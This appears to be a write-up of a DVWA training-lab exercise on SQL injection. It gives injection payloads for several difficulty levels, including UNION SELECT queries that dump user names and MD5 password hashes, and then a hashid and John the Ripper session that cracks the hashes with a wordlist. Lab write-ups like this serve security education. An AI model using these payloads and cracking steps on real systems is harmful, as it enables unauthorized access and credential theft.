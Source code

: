 # Low Difficulty: 
```
id=1&Submit=Submit#
```
putting 1 as input we get back the ID(The input), first name and surname fields
so its like 
```
select first_name, last_name from users where user_id = '1';
```
Putting a Single ' will resulting an Error 
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' '' '' at line 1
This happened because the query was user_id ' ';

Testing Always True Scenario, like 1=1
On the query, it looks like
```
WHERE user_id = 1' OR' 1 '=' 1
```
We have the First name and Surname fields of all 5 users. 
to find out if there are more fields on the databse we need to perform a UNION attack combined with ORDER BY clause, this work because after the order by clause indicates the column index, thus if we try order our table with value of, for example "5" while the table only has "4" then we will get an Unknown column error
for example 
ORDER BY 3
```
?id=%27+ORDER+BY+3--+&Submit=Submit#
```
will return:
Unknown column '3' in 'order clause'
That means there are only 2 Fields on the Table.

And now we can try to guess those fields by using ' UNION SELECT username, password FROM users#
and we got " Unknown column 'username' in 'field list' " as the Result
which means username is not one of the field from the table, but password is one of the fields, lets try changing it to something similar "user" for example:
```
' UNION SELECT user, password FROM users#
```

# Medium Difficulty:
Inspect the web
Edit the Value from the choice to the condition always true
for example 
```
1 OR 1 = 1
```
# High Difficulty:
on the change ID insert
```
'Session ID: 'UNION SELECT user,password from users#' 
```

# Decrypt the Passwords
After getting the Datas we get the Data of the user's name and password, and all the passwords are encrypted
```
ID: ' UNION SELECT user, password FROM users# 
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
ID: ' UNION SELECT user, password FROM users# 
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03
ID: ' UNION SELECT user, password FROM users# 
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
ID: ' UNION SELECT user, password FROM users# 
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
ID: ' UNION SELECT user, password FROM users# 
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```
So now we gonna try to Decrypt all of them

Using tools called "Hashid" to identify what kind hash pattern used
```
hashid 5f4dcc3b5aa765d61d8327deb882cf99
```
```
Analyzing '5f4dcc3b5aa765d61d8327deb882cf99'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
```
after that choose one of the encryption pattern that we are going to try out, in here we gonna try MD 5

in here we gonna try to find how MD5 formatted
```
eCryptfs, eigrp, electrum, ENCDataVault-MD5, ENCDataVault-PBKDF2, EncFS,
Padlock, Palshop, Panama, PBKDF2-HMAC-MD4, PBKDF2-HMAC-MD5, PBKDF2-HMAC-SHA1,
Raw-Blake2, Raw-Keccak, Raw-Keccak-256, Raw-MD4, Raw-MD5, Raw-MD5u, Raw-SHA1,
solarwinds, SSH, sspr, Stribog-256, Stribog-512, STRIP, SunMD5, SybaseASE,
433 formatsHMAC-MD5, HMAC-SHA1, HMAC-SHA224, HMAC-SHA256, HMAC-SHA384, HMAC-SHA512,
```
choose one, and then try to crack the hashes using john
```
 $ john --format=Raw-MD5 hashes --wordlist=/usr/share/wordlists/rockyou.txt
```

```
 Using default input encoding: UTF-8
 Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
 Warning: no OpenMP support for this hash type, consider --fork=16
 Press 'q' or Ctrl-C to abort, almost any other key for status
 password         (?)
 abc123           (?)
 letmein          (?)
 charley          (?)
 4g 0:00:00:00 DONE (2023-12-12 16:49) 133.3g/s 102400p/s 102400c/s 179200C/s skyblue..dangerous
 Warning: passwords printed above might not be all those cracked
```
